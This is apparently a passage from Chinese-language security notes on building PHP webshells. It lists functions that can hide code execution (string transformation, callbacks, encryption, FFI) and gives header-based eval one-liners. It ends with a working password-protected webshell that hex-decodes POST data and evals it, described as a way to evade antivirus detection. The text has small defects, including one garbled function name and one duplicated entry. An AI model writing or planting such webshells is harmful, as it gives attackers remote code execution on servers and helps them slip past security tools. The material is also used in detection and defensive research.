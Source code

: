     `$a = filter_input(INPUT_GET,'c');``eval(end(getallheaders()));`get_defined_varsgetallheadersget_meta_tagsphpinfo外部变量 / 文件信息重载 toString

##### 字符串变形函数

- base64_decode
- base64_encode
- str_replace
- str_rot13
- strtok
- strtolower
- strtoupper
- strtr
- substr
- substr_replace
- trim
- ucfirst
- ucwords

##### 回调函数

- array_filter
- array_map
- array_reduce
- array_walk
- array_walk
- array_walk_recursive
- call_user_func
- call_user_func_array
- filter_var
- filter_var_array
- preg_replace_callback
- register_tick_function
- registregister_shutdown_function
- uasort
- uksort

##### 加解密函数

- mcrypt_encrypt
- openssl_encrypt

##### 其他执行方式

- FFI
- SimpleXML
- SimpleXMLElement

##### 自定义函数

使用自定义的加解密函数，在一定程度上可以绕过一些防护软件的查杀，下面的代码是一个基于十六进制的执行的简单例子。

```
$string = '';
$password = 'password';
if(isset($_POST[$password])){
    $hex = $_POST[$password];
    for($i = 0; $i < strlen($hex) - 1; $i += 2) {
        $string .= chr(hexdec($hex[$i] . $hex[$i + 1]));
    }
}
eval($string);

```
